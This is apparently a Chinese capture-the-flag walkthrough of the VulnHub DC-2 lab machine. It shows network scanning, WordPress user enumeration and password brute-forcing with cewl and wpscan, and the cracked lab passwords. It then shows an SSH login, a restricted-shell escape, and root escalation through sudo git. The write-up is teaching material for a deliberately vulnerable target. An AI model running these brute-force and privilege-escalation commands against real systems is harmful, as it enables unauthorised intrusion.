

# DC 2

## 环境准备

- 镜像地址：https://www.vulnhub.com/entry/dc-2,311/

## 知识点

- hosts文件修改重定向
- wpscan工具利用
- less more vi等替代查看文件
- suid-git提权

## 信息收集

```bash
ifconfig all # 这里是因为本地局域网
nmap -sP 192.168.2.0/24 # IP探测 扫描本地C段的网络端口信息
# 192.168.2.16
nmap -A -p- -T4 192.168.2.16
```


## 漏洞利用
### 0x01-flag1

访问页面会被重定向到 http://dc-2，需要在hosts文件添加解析

```
windows添加
C:\Windows\System32\drivers\etc\host
在下面添加一条
192.168.2.16 dc-2

linux添加
vim /ect/hosts
192.168.2.16 dc-2
```


可以看到flag1，提示用cewl，一个用于抓取网站信息用于生成密码的工具，kali自带cewl
### 0x02-flag2

获取password密码表
```bash
cewl http://dc-2 > password
```

网站是WP，用wpscan工具进行爆破(kali自带)
```bash
wpscan --update # 需要先更新
wpscan --url http://dc-2 --enumerate u # 用户信息枚举
```


可以看到爆出三个用户，使用cewl爬取的密码文件进行爆破账号密码

```bash
wpscan --url http://dc-2 --passwords password
```

```
Username : jerry
Password : adipiscing

Username : tom
Password : parturient
```



wordpress后台默认地址为：http://dc-2/wp-admin/

拿去登录jerry后台发现flag2


翻译就是
```
如果你无法利用 WordPress 并采取捷径，那还有另一种方法。

希望你找到另一个入口点。
```

### 0x03-flag3

ssh登录
```
ssh tom@dc-2 -p 7744
```


cat vim被禁用，用vi读取flag3

```
Poor old Tom is always running after Jerry. Perhaps he should su for all the stress he causes.
```

```
可怜的老汤姆总是追杰瑞。也许他应该为自己造成的压力负责。
```

### 0x04-flag4

less /etc/passwd


可见 jerry 用户存在,接下来就是rbash逃逸->提权

- rbash逃逸：https://xz.aliyun.com/t/7642

```
BASH_CMDS[a]=/bin/bash
a
/bin/bash
export PATH=PATH:/sbin:/bin
```

```bash
cat /home/jerry/flag4.txt
```

```
Good to see that you've made it this far - but you're not home yet.

You still need to get the final flag (the only flag that really counts!!!).
No hints here - you're on your own now.  :-)
Go on - git outta here!!!!
```

### 0x05-flag5

- git提权

```bash
su jerry # 首先登录jerry
sudo -l # 查看用户可执行权限
```


搜索git提权

https://gtfobins.github.io/gtfobins/git/


```bash
sudo git -p help config
!/bin/sh

cd
cat final-flag.txt
```

提权成功

## 参考文章
- https://github.com/ffffffff0x/1earn/blob/004fbc731d7ce8004b9c2a38613d39f71cd8cb6e/1earn/Security/%E5%AE%89%E5%85%A8%E8%B5%84%E6%BA%90/%E9%9D%B6%E6%9C%BA/VulnHub/DC/DC2-WalkThrough.md
- https://peiqiwiki.yuque.com/staff-ws572w/ku05f9/fg3gg8
- http://www.kxsy.work/2021/07/23/shen-tou-dc-2/#toc-heading-4